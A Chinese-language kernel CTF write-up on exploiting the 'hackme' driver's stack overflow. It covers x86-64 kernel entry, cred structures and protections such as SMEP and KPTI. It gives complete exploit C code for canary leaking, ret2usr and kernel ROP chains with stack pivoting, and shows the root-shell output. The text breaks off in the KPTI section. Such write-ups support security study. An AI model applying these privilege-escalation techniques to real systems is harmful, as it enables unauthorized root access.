

# 基础知识


## 状态切换

当发生 `系统调用`，`产生异常`，`外设产生中断`等事件时，会发生用户态到内核态的切换，具体代码如下[linux/arch/x86_64/entry.S]([entry_64.S - arch/x86/entry/entry_64.S - Linux source code (v4.12) - Bootlin](https://elixir.bootlin.com/linux/v4.12/source/arch/x86/entry/entry_64.S))

```assembly
 /* SWAPGS_UNSAFE_STACK是一个宏，x86直接定义为swapgs指令 */
 SWAPGS_UNSAFE_STACK

 /* 保存栈值，并设置内核栈 */
 movq %rsp, PER_CPU_VAR(rsp_scratch)
 movq PER_CPU_VAR(cpu_current_top_of_stack), %rsp


/* 通过push保存寄存器值，形成一个pt_regs结构 */
/* Construct struct pt_regs on stack */
pushq  $__USER_DS      /* pt_regs->ss */
pushq  PER_CPU_VAR(rsp_scratch)  /* pt_regs->sp */
pushq  %r11             /* pt_regs->flags */
pushq  $__USER_CS      /* pt_regs->cs */
pushq  %rcx             /* pt_regs->ip */
pushq  %rax             /* pt_regs->orig_ax */
pushq  %rdi             /* pt_regs->di */
pushq  %rsi             /* pt_regs->si */
pushq  %rdx             /* pt_regs->dx */
pushq  %rcx tuichu    /* pt_regs->cx */
pushq  $-ENOSYS        /* pt_regs->ax */
pushq  %r8              /* pt_regs->r8 */
pushq  %r9              /* pt_regs->r9 */
pushq  %r10             /* pt_regs->r10 */
pushq  %r11             /* pt_regs->r11 */
sub $(6*8), %rsp      /* pt_regs->bp, bx, r12-15 not saved */
```

**关注点是进入内核态将这几个寄存器压栈**：From 64-ia-32-architectures-software-developer-vol-1-manual.pdf



+ 特权级不发生切换：**EFLAGS, CS, EIP, Error Code** 依次压入当前Task的内核栈
+ 特权级发生变化：**SS, ESP, EFLAGS, CS, EIP, Error Code** 依次压入当前Task的内核栈

从中断返回：一般使用**iret**指令，在这之前如果是返回用户态得使用**swapgs**，恢复 GS 值

> - 程序执行这条iret指令时，首先会从内核栈里弹出先前保存的被打断的程序的现场信息，即eflags，cs，eip重新开始执行；
> - 如果存在特权级转换（从内核态转换到用户态），则还需要从内核栈中弹出用户态栈的ss和esp，这样也意味着栈也被切换回原先使用的用户态的栈了；


## 进程权限

每个进程中都有一个 cred 结构，这个结构保存了该进程的权限等信息（uid，gid 等），如果能修改某个进程的 cred，那么也就修改了这个进程的权限。

具体结构如下：https://code.woboq.org/linux/linux/include/linux/cred.h.html#cred

```c
struct cred {
    atomic_t    usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
    atomic_t    subscribers;    /* number of processes subscribed */
    void        *put_addr;
    unsigned    magic;
#define CRED_MAGIC  0x43736564
#define CRED_MAGIC_DEAD 0x44656144
#endif
    kuid_t      uid;        /* real UID of the task */
    kgid_t      gid;        /* real GID of the task */
    kuid_t      suid;       /* saved UID of the task */
    kgid_t      sgid;       /* saved GID of the task */
    kuid_t      euid;       /* effective UID of the task */
    kgid_t      egid;       /* effective GID of the task */
    kuid_t      fsuid;      /* UID for VFS ops */
    kgid_t      fsgid;      /* GID for VFS ops */
    unsigned    securebits; /* SUID-less security management */
    kernel_cap_t    cap_inheritable; /* caps our children can inherit */
    kernel_cap_t    cap_permitted;  /* caps we're permitted */
    kernel_cap_t    cap_effective;  /* caps we can actually use */
    kernel_cap_t    cap_bset;   /* capability bounding set */
    kernel_cap_t    cap_ambient;    /* Ambient capability set */
#ifdef CONFIG_KEYS
    unsigned char   jit_keyring;    /* default keyring to attach requested
                     * keys to */
    struct key __rcu *session_keyring; /* keyring inherited over fork */
    struct key  *process_keyring; /* keyring private to this process */
    struct key  *thread_keyring; /* keyring private to this thread */
    struct key  *request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
    void        *security;  /* subjective LSM security */
#endif
    struct user_struct *user;   /* real user ID subscription */
    struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
    struct group_info *group_info;  /* supplementary groups for euid/fsgid */
    struct rcu_head rcu;        /* RCU deletion hook */
} __randomize_layout;
```


CTF中一般使用特权函数改变当前进程的权限：`commit_creds(prepare_kernel_cred(0))`

0 表示 以 0 号进程作为参考准备新的 credentials。

```c
int commit_creds(struct cred *new)
struct cred* prepare_kernel_cred(struct task_struct* daemon)
```

这两个函数地址可以在**/proc/kallsyms**查看(老版本：/proc/ksyms)但需要root权限


## 内核模块LKM

LKM即Loadable Kernel Modules 内核模块包括：

+ 驱动程序（Device drivers）
  - 设备驱动
  - 文件系统驱动
+ 内核扩展模块 (modules)

LKM一般是实现对某些硬件的管控(驱动)向上提供接口，所以其运行于内核态但这和运行的进程不是一回事它是内核的一部分

> Linux 内核之所以提供模块机制，是因为它本身是一个单内核 (monolithic kernel)。单内核的优点是效率高，因为所有的内容都集合在一起，但缺点是可扩展性和可维护性相对较差，模块机制就是为了弥补这一缺陷。


粗略的说LKM相比于普通ELF程序(linux下)就是多了一些模块函数，没了main函数


## 保护机制

这里主要是了解一些内核的保护措施就像用户程序中的`ASLR`,`canary`,`PIE`等，以下介绍一些比较常见的：

+ Kernel stack cookies (or canaries)：就是用户程序中的`canary`保护，但在内核这个是无法关闭的也没有对应的qemu启动参数来关闭，它是在编译的时候开启的
+ Kernel address space layout randomization (KASLR)：就像我们的`ASLR`，随机化了每次系统启动时内核加载地址。可以由qemu参数`-append`中添加`kaslr`或`nokaslr`开启或关闭
+ Supervisor mode execution protection (SMEP)：开启后，陷入内核后将无法执行用户段命令。这个由`CR4`寄存器的`20th bit`决定是否开启，我们在启动参数中在`-append`中添加`nosmep`关闭，在`-cpu`中添加`+semp`开启
+ Supervisor Mode Access Prevention (SMAP) ：用于加强`smep`，当陷入内核时，无法访问用户空间的数据。`marks all the userland pages in the page table as non-accessible`.这个由`CR4`寄存器的`21st bit`决定开启，可以由初始化参数`-cpu`中的`+smap`开启，或`-append`中的`nosmap`关闭
+ Kernel page-table isolation (KPTI)：开启后，在内核模式用户区的页表集和内核区的页表集完全分离.`-append`中添加`kpti=1`开启，`nopti`关闭


# 例题解析

题目给出**initramfs.cpio.gz**文件系统压缩文件

解压脚本：

```bash
mkdir initramfs
cd initramfs
cp ../initramfs.cpio.gz .
gunzip ./initramfs.cpio.gz
cpio -idm < ./initramfs.cpio
rm initramfs.cpio
```


打包脚本：包括静态编译Exp

```c
gcc -o exploit -static $1
mv ./exploit ./initramfs
cd initramfs
find . -print0 \
| cpio --null -ov --format=newc \
| gzip -9 > initramfs.cpio.gz
mv ./initramfs.cpio.gz ../
```


解压内核镜像文件**vmlinuz**：

```bash
#!/bin/sh
# SPDX-License-Identifier: GPL-2.0-only
# ----------------------------------------------------------------------
# extract-vmlinux - Extract uncompressed vmlinux from a kernel image
#
# Inspired from extract-ikconfig
# (c) 2009,2010 Dick Streefland <dick@streefland.net>
#
# (c) 2011      Corentin Chary <corentin.chary@gmail.com>
#
# ----------------------------------------------------------------------

check_vmlinux()
{
	# Use readelf to check if it's a valid ELF
	# TODO: find a better to way to check that it's really vmlinux
	#       and not just an elf
	readelf -h $1 > /dev/null 2>&1 || return 1

	cat $1
	exit 0
}

try_decompress()
{
	# The obscure use of the "tr" filter is to work around older versions of
	# "grep" that report the byte offset of the line instead of the pattern.

	# Try to find the header ($1) and decompress from here
	for	pos in `tr "$1\n$2" "\n$2=" < "$img" | grep -abo "^$2"`
	do
		pos=${pos%%:*}
		tail -c+$pos "$img" | $3 > $tmp 2> /dev/null
		check_vmlinux $tmp
	done
}

# Check invocation:
me=${0##*/}
img=$1
if	[ $# -ne 1 -o ! -s "$img" ]
then
	echo "Usage: $me <kernel-image>" >&2
	exit 2
fi

# Prepare temp files:
tmp=$(mktemp /tmp/vmlinux-XXX)
trap "rm -f $tmp" 0

# That didn't work, so retry after decompression.
try_decompress '\037\213\010' xy    gunzip
try_decompress '\3757zXZ\000' abcde unxz
try_decompress 'BZh'          xy    bunzip2
try_decompress '\135\0\0\0'   xxx   unlzma
try_decompress '\211\114\132' xy    'lzop -d'
try_decompress '\002!L\030'   xxx   'lz4 -d'
try_decompress '(\265/\375'   xxx   unzstd

# Finally check for uncompressed images or objects:
check_vmlinux $img

# Bail out:
echo "$me: Cannot find vmlinux." >&2
```


内核模块主要如下两个函数

```c
ssize_t __fastcall hackme_write(file *f, const char *data, size_t size, loff_t *off)
{
  unsigned __int64 v4; // rdx
  ssize_t v5; // rbx
  ssize_t result; // rax
  int tmp[32]; // [rsp+0h] [rbp-A0h]
  unsigned __int64 v8; // [rsp+80h] [rbp-20h]

  _fentry__();
  v5 = v4;
  v8 = __readgsqword(0x28u);
  if ( v4 > 0x1000 )			//输入的数据不能超过0x1000
  {
    _warn_printk("Buffer overflow detected (%d < %lu)!\n", 4096LL);
    BUG();
  }
  _check_object_size(hackme_buf, v4, 0LL);			//检查bss上的buffer与我们的输入size
  if ( copy_from_user(hackme_buf, data, v5) )		//将输入先存于hackme_buf
    goto LABEL_8;
  _memcpy(tmp, hackme_buf, v5);						//hackme_buf赋值到栈  stackoverflow
  result = v5;
  while ( __readgsqword(0x28u) != v8 )
LABEL_8:
    result = -14LL;
  return result;
}
```

该模块写时存在溢出

```c
ssize_t __fastcall hackme_read(file *f, char *data, size_t size, loff_t *off)
{
  __int64 v4; // rbx
  __int64 v5; // rbp
  __int64 v6; // r12
  unsigned __int64 v7; // rdx
  unsigned __int64 v8; // rbx
  bool v9; // zf
  ssize_t result; // rax
  int tmp[32]; // [rsp+0h] [rbp-A0h]
  unsigned __int64 v12; // [rsp+80h] [rbp-20h]
  __int64 v13; // [rsp+88h] [rbp-18h]
  __int64 v14; // [rsp+90h] [rbp-10h]
  __int64 v15; // [rsp+98h] [rbp-8h]

  _fentry__();
  v15 = v5;
  v14 = v6;
  v13 = v4;
  v8 = v7;
  v12 = __readgsqword(0x28u);
  _memcpy(hackme_buf, tmp, v7);
  if ( v8 > 0x1000 )
  {
    _warn_printk("Buffer overflow detected (%d < %lu)!\n", 4096LL);
    BUG();
  }
  _check_object_size(hackme_buf, v8, 1LL);
  v9 = copy_to_user(data, hackme_buf, v8) == 0;			//stack leak
  result = -14LL;
  if ( v9 )
    result = v8;
  return result;
}
```

可见该模块是一个IO设备的驱动，主要功能就是读写。

```bash
➜  initramfs git:(main) ✗ checksec hackme.ko 
[*] '/home/matrix/PWN/tmp/Kernel/initramfs/hackme.ko'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x0)
```

开启了**canary**和**NX**保护

我们接下来逐步开启保护


## level_0 --- Canary Only

修改启动脚本如下：

```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64 \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -gdb tcp::1234 \
    -append "console=ttyS0 nopti nosmep nosmap nokaslr quiet panic=1"

```

参数：

+ -m：指定系统的内存大小
+ -cpu：指定cpu模式，后面的`+smep`和`+smap`可以开启了一些保护措施
+ -kernel：指定压缩后的内核镜像文件
+ initrd：指定压缩后的文件系统
+ -append：一些额外的启动参数，这里我们可以`启动或关闭保护措施`
+ -hdb：将flag.txt映射到系统中的`/dev/sda`，防止被其他操作读取或为了更容易部署
+ gdb：启动调试

### Exploit --- ret2usr

先决条件：

+ 没有开启`smep smap`我们可以随意访问用户空间
+ 没开启`kaslr`模块位置固定，符号表中地址泄露
  + 这个保护后面细说


#### Open Device

首先想要和这个含有漏洞的模块交互，我们得先打开它

```c
int global_fd;

void open_dev(){
    global_fd = open("/dev/hackme", O_RDWR);
	if (global_fd < 0){
		puts("[!] Failed to open device");
		exit(-1);
	} else {
        puts("[*] Opened device");
    }
}
```


#### Leaking stack cookies

利用stackoverflow泄露canary绕过那唯一的保护

```c
unsigned long cookie;

void leak(void){
    unsigned n = 20;			//由IDA 栈结构可算出
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];

    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", cookie);
}
```


#### Overwriting return address

这里和上述的泄露操作差不多，我们同样使用**unsigned long**数组来做payload，在ret_addr处覆盖为提权函数(escalate_privs):

```c
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0;
    payload[off++] = 0x0;
    payload[off++] = 0x0; // rbp
    payload[off++] = (unsigned long)escalate_privs; // ret

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}
```

经过escalate_privs函数我们完成提权，现在的重点是这个函数咋写？


#### Getting root privileges

我们的目标：获取root权限然后打开一个shell。使用：`commit_creds(prepare_kernel_cred(0))`这两个内核函数。

因为我们关闭了大部分的保护(KASLR)所以这两个的函数地址是固定的，可以从**/proc/kallsyms找到**(这就需要提前使用root查看，修改启动脚本)：

```bash
t /proc/kallsyms | grep commit_creds
-> ffffffff814c6410 T commit_creds
cat /proc/kallsyms | grep prepare_kernel_c
```

汇编来使用这两个函数地址：

```c
void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"  //使用intel汇编风格
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"							//到这里就已经提权了，接下来获取shell并且安全返回
        ... //return back
        ".att_syntax;"
    );
}
```

用户态进入内核时，会使用swapgs将gs换为内核态gs所以，咱们在iretq前还得用swapgs换回来(因为iretq用户态无法执行)


> **Returning to userland**：
> 进行上述的操作后，需要返回到用户空间打开一个shell。那么我们使用`sysretq`或`iretq`进返回(x86 64)，一般选用iretq，因为其返回条件比较简单只需栈上一下5个寄存器依次入栈即可：*RIP | CS | RFLAGS | SP | SS*
>
> 因为我们不知道进入内核时用户态的这几个寄存器值，那么我们就得先存起来，当然rip我们设置为getshell函数地址：
>
> ```c
> void save_state(){
>     __asm__(
>         ".intel_syntax noprefix;"
>         "mov user_cs, cs;" //可以直接使用c的全局变量
>         "mov user_ss, ss;"
>         "mov user_sp, rsp;"
>         "pushf;"
>         "pop user_rflags;"
>         ".att_syntax;"
>     );
>     puts("[*] Saved state");
> }
> ```

那么完整的提权函数为：

```c
unsigned long user_rip = (unsigned long)get_shell;

void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"
        "swapgs;"
        "mov r15, user_ss;"				//由save_state函数提前保存
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}
```


#### Final_Exp

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <linux/userfaultfd.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>


int global_fd;

void open_dev(){
    global_fd = open("/dev/hackme", O_RDWR);
	if (global_fd < 0){
		puts("[!] Failed to open device");
		exit(-1);
	} else {
        puts("[*] Opened device");
    }
}

unsigned long user_cs, user_ss, user_rflags, user_sp;
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

unsigned long cookie;
void leak(void){
    unsigned n = 20;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];

    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", cookie);
}

void get_shell(void){
    puts("[*] Returned to userland");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    } else {
        printf("[!] UID: %d, didn't get root\n", getuid());
        exit(-1);
    }
}

unsigned long user_rip = (unsigned long)get_shell;
void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}

void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; 
    payload[off++] = 0x0; 
    payload[off++] = 0x0; // rbp
    payload[off++] = (unsigned long)escalate_privs; // ret

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}

int main() {

    save_state();

    open_dev();

    leak();

    overflow();
    
    puts("[!] Should never be reached");

    return 0;
}
```

本地静态编译后和文件系统打包，运行启动脚本：

```bash
/ $ ./exploit 
[*] Saved state
[*] Opened device
[*] Leaked 160 bytes
[*] Cookie: 8b1ad6cc247eac00
[*] Prepared payload
[*] Returned to userland
[*] UID: 0, got root!
```


## leve_1 Append Smep --- Krop

`smep`可以看做用户区保护的`NX`，在kernel中由CR4寄存器的第20位设置是否开启。在启动参数`-cpu`后面加上`+smep`开启。**level_0**的提权方法，是通过执行在用户区的函数完成。但现在由于smep开启在内核模式我们将无法执行用户区代码，类似与用户程序开启了NX保护我们可以通过**Return-oriented programming (ROP)**来绕过这样的保护也就是`kernel ROP`

**使用ROPgadget对内核文件vmlinux提取会需要一定时间，建议在一开始就后台提取。**

使用Rop一般由以下两种情况：

+ 我们能够对内核栈任意读写
+ 我们仅仅能覆盖内核栈的返回地址

针对这个题目使用两种情况不同方法来解决


其实native_write_cr4(value)可以帮我们将CR4置零：

```c
void native_write_cr4(unsigned long val)
{
	unsigned long bits_changed = 0;

set_register:
	asm volatile("mov %0,%%cr4": "+r" (val) : : "memory");

	if (static_branch_likely(&cr_pinning)) {
		if (unlikely((val & cr4_pinned_mask) != cr4_pinned_bits)) {
			bits_changed = (val & cr4_pinned_mask) ^ cr4_pinned_bits;
			val = (val & ~cr4_pinned_mask) | cr4_pinned_bits;
			goto set_register;
		}
		/* Warn after we've corrected the changed bits. */
		WARN_ONCE(bits_changed, "pinned CR4 bits changed: 0x%lx!?\n",
			  bits_changed);
	}
}
```

但是在较新版本的内核中CR4的第20，21位仅在启动时设定，每次被修改会立即重置

From https://patchwork.kernel.org/project/kernel-hardening/patch/20190220180934.GA46255@beast/


### Rop Chain

步骤：

1.  ROP执行prepare_kernel_cred(0)
2.  ROP执行commit_creds()，参数为上一步的结果
3.  ROP执行swapgs; ret
4.  ROP执行iretq并且将栈设置为：**RIP|CS|RFLAGS|SP|SS**

主要修改改动为：不需要用户态提权代码，直接overflow的时候布置rop_chain提权返回后执行get_shell

overflow函数如下：

```c
unsigned long PopRdiRet = 0xffffffff815f88ec;               //pop rdi ; ret
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;

unsigned long MovRdiRaxRet = 0xffffffff8166fea3;            //mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long CmpRdxRet = 0xffffffff81964cc4;               //cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long PopRdxRet = 0xffffffff815f3327;               //pop rdx ; ret

unsigned long commit_creds = 0xffffffff814c6410;
unsigned long SwapgsRet = 0xffffffff8120109c;               //swapgs ; pop rbp ; ret
unsigned long Iret = 0xffffffff8100c0d9;
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; 
    payload[off++] = 0x0; 
    payload[off++] = 0x0; // rbp
    payload[off++] = PopRdiRet; // ret
    payload[off++] = 0;
    payload[off++] = prepare_kernel_cred;
    //绕过MovRdiRaxRet中的跳转
    payload[off++] = PopRdxRet;
    payload[off++] = 8;
    payload[off++] = CmpRdxRet;
    payload[off++] = 0;
    payload[off++] = 0xdeadbeef;
    payload[off++] = MovRdiRaxRet;
    payload[off++] = 0;
    payload[off++] = 0xdeadbeef;

    payload[off++] = commit_creds;
    payload[off++] = SwapgsRet;
    payload[off++] = 0xdeadbeef;
    
    payload[off++] = Iret;
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}
```

这个由于可以随意溢出rop思路还是很明确的，主要是寻找gadgets稍微复杂一点：

+ 根据IDA获取vmlinux的代码段`ROPgadget --binary ./vmlinux --range 0xFFFFFFFF8101BAB0-0xFFFFFFFF81BE7762 > gadgets_2.txt`
  + 无法找到`iret`
+ `objdump -j .text -d ./vmlinux | grep iretq | head -1`获取**iret**指令
  + -j：dump的段名，-d反编译

Result:

```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64,+smep \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -gdb tcp::1234 \
    -append "console=ttyS0 nopti nosmap nokaslr quiet panic=1"
    

/ $ ./exploit 
[*] Saved state
[*] Opened device
[*] Leaked 160 bytes
[*] Cookie: 14a9938066bb1200
[*] Prepared payload
[*] Returned to userland
[*] UID: 0, got root!
/ # 
```


### Rop --- Pivot Stack

很明显第二种情况我们无法在ret地址后面部署更多的gadgets，所以我们使用在用户程序经常使用的`栈迁移`。这就需要修改rsp/esp的gadgets，这对我们巨量的gadgets一般不成问题，只需保证gadgets可执行，并且那个给rsp/esp赋值的常量是地址对齐的`mov esp, 0x5b000000 ; pop r12 ; pop rbp ; ret`。然后处理就和前面一样了：

```c
void build_stack(){
    puts("[*] Build stack start");
    unsigned long *base = NULL, *payload = NULL;
    base = mmap((void *)(0x5b000000 - 0x1000), 0x2000, PROT_EXEC|PROT_WRITE|PROT_READ, MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED, 0, 0);
    if((unsigned long)base != (0x5b000000 - 0x1000)){
        puts("[!] build_stack failed!");
        exit(-1);
    }
    
    payload = base;
    int off = 0x1000/8;
    payload[0] = 0xdeadbeef;
    payload[off++] = 0;                //pop r12
    payload[off++] = 0xdeadbeef;       //pop rbp
    
    payload[off++] = PopRdiRet;        // ret
    payload[off++] = 0;
    payload[off++] = prepare_kernel_cred;
    
    payload[off++] = PopRdxRet;
    payload[off++] = 8;
    payload[off++] = CmpRdxRet;
    payload[off++] = 0;
    payload[off++] = 0xdeadbeef;
    payload[off++] = MovRdiRaxRet;
    payload[off++] = 0;
    payload[off++] = 0xdeadbeef;

    payload[off++] = commit_creds;
    payload[off++] = SwapgsRet;
    payload[off++] = 0xdeadbeef;
    
    payload[off++] = Iret;
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Build stack done");
}
```

这里从**0x5b000000-0x1000**开始获取0x2000(两页)的空间(rwx)：0x5afff000 ~ 0x5b001000，这时为了防止ROP链在调用提权函数时`栈增长`，然后还需提前向**0x5b000000~0x5afff000**写入数据引发缺页写入页表


Result:

```bash
/ $ ./exploit 
[*] Saved state
[*] Opened device
[*] Leaked 160 bytes
[*] Cookie: 1f54c277a4ad7d00
[*] Build stack start
[*] Build stack done
[*] Prepared payload
[*] Returned to userland
[*] UID: 0, got root!
/ # 
```


## level_2 Append KPTI

KPTI全称为**Kernel page-table isolation** 页表隔离，一个进程都会有自己的一个页目录(索引所有页表)，其总主要页表组成为**程序页表和内核页表**。由**CR3**确定页目录地址，因此每个进程访问**内核资源**条件比较宽松。


当开启KPTI后，使用CR3寄存器来实现两态页表目录(地址空间)切换，*CR3的 bit47-bit11为 PGD的物理地址，最低为 bit12用于进行 PGD切换；bit12=0为内核态PGD，bit12=1为用户态 PGD。*


所以如果退出内核态的时候不把CR3回置那么使用的页表还是内核态的，会造成**segment fault**。以下是level_1的Exp执行情况

```bash
/ $ ./exploit 
[*] Saved state
[*] Opened device
[*] Leaked 160 bytes
[*] Cookie: d453789266177500
[*] Build stack start
[*] Build stack done
[*] Prepared payload
Segmentation fault
/ $ 
```


#### KPTI trampoline

既然进入要分离页表，如果不调整CR3就直接返回系统调用那么使用的页表还是内核态而在smep的加持下用户区的代码是不可执行的，所以必然内核存在用于这种情况的返回函数：

```assembly
/ # cat /proc/kallsyms  | grep swapgs_restore_regs_and_return_to_usermode
ffffffff81200f10 T swapgs_restore_regs_and_return_to_usermode
gdb-peda$ x/32gi 0xffffffff81200f10
   0xffffffff81200f10 <_stext+2101008>:	pop    r15
   0xffffffff81200f12 <_stext+2101010>:	pop    r14
   0xffffffff81200f14 <_stext+2101012>:	pop    r13
   0xffffffff81200f16 <_stext+2101014>:	pop    r12
   0xffffffff81200f18 <_stext+2101016>:	pop    rbp
   0xffffffff81200f19 <_stext+2101017>:	pop    rbx
   0xffffffff81200f1a <_stext+2101018>:	pop    r11
   0xffffffff81200f1c <_stext+2101020>:	pop    r10
   0xffffffff81200f1e <_stext+2101022>:	pop    r9
   0xffffffff81200f20 <_stext+2101024>:	pop    r8
   0xffffffff81200f22 <_stext+2101026>:	pop    rax
   0xffffffff81200f23 <_stext+2101027>:	pop    rcx
   0xffffffff81200f24 <_stext+2101028>:	pop    rdx
   0xffffffff81200f25 <_stext+2101029>:	pop    rsi
   0xffffffff81200f26 <_stext+2101030>:	mov    rdi,rsp
   0xffffffff81200f29 <_stext+2101033>:	mov    rsp,QWORD PTR gs:0x6004
   0xffffffff81200f32 <_stext+2101042>:	push   QWORD PTR [rdi+0x30]		#ss
   0xffffffff81200f35 <_stext+2101045>:	push   QWORD PTR [rdi+0x28]		#sp
   0xffffffff81200f38 <_stext+2101048>:	push   QWORD PTR [rdi+0x20]		#rflags
   0xffffffff81200f3b <_stext+2101051>:	push   QWORD PTR [rdi+0x18]		#cs
   0xffffffff81200f3e <_stext+2101054>:	push   QWORD PTR [rdi+0x10]		#ip
   0xffffffff81200f41 <_stext+2101057>:	push   QWORD PTR [rdi]			#dummy 
   0xffffffff81200f43 <_stext+2101059>:	push   rax						#dummy 
   0xffffffff81200f44 <_stext+2101060>:	xchg   ax,ax
   0xffffffff81200f46 <_stext+2101062>:	mov    rdi,cr3				#<=====
   0xffffffff81200f49 <_stext+2101065>:	jmp    0xffffffff81200f7f 
   
gdb-peda$ x/8gi 0xffffffff81200f7f
   0xffffffff81200f7f <_stext+2101119>:	or     rdi,0x1000
   0xffffffff81200f86 <_stext+2101126>:	mov    cr3,rdi				#<=====
   0xffffffff81200f89 <_stext+2101129>:	pop    rax
   0xffffffff81200f8a <_stext+2101130>:	pop    rdi
   0xffffffff81200f8b <_stext+2101131>:	swapgs 						#<=====
   0xffffffff81200f8e <_stext+2101134>:	nop    DWORD PTR [rax]
   0xffffffff81200f91 <_stext+2101137>:	jmp    0xffffffff81200fc0 <_stext+2101184>
   0xffffffff81200f96 <_stext+2101142>:	nop
   
gdb-peda$ x/8gi 0xffffffff81200fc0
